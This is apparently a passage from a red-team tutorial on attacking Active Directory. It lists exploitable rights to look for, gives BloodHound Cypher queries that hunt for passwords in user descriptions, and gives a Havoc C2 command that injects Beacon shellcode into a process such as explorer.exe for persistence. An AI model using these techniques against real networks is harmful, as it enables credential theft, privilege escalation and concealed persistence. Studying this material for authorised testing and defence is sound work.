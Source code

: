 ![image](https://github.com/user-attachments/assets/7222ea1a-5de8-4cb1-a3bc-0263196a8347)

Here we are searching for users/groups with exploitable rights.

Focus especially on users in the `Domain Users` group with elevated rights!

Usually, we look for:
> - `GenericAll` on high-priv targets
> - `ForceChangePassword` (for password reset without knowing the current one)
> - `WriteDacl` for backdooring objects
> - `ADCSESC1` for Active Directory certificate templates vulnerabilities
> - `CanRDP` for Lateral Movement

## Test also these other custom queries:  

> - Password-like string in description
```
MATCH (u:User) WHERE u.description =~ '(?=.*?[A-Za-z])(?=.*?[0-9])(?=.*?[^\\w\\s]).{6,}' RETURN u
```
> - Users with active sessions  
```
MATCH p = (c:Computer)-[:HasSession]->(n) return p
```

## EXTRA : Shellcode Injection for Redundancy

Before beginning active reconnaissance, it’s smart to preserve access by injecting the Beacon shellcode into another process 

This provides a fallback in case the initial session is lost or crashes.

### Process Discovery
1. In the Havoc Client, open the active Beacon tab.
2. Navigate to: Explorer > Process List
3. A window will show the currently running processes on the target:
4. Identify a suitable 64-bit user-mode process (e.g., `explorer.exe`, `notepad.exe`, `dllhost.exe`, `werfault.exe`, `sihost.exe`).
5. Note the PID (Process ID)

![image](https://github.com/user-attachments/assets/7a5ce666-2613-41e0-913e-77142fa4c988)

### Inject Shellcode into Target Process
From the Beacon tab, run:
```beacon
shellcode inject x64 PID /home/kali/Havoc/obfuscator/beacon.bin
```
Replace <PID> with the chosen target’s process ID.

Ensure the `beacon.bin` used matches your current listener.

![image](https://github.com/user-attachments/assets/e77adfde-982a-4b49-a931-2720bccda7f5)

This creates a second active Beacon, adding persistence and resilience to your operation.
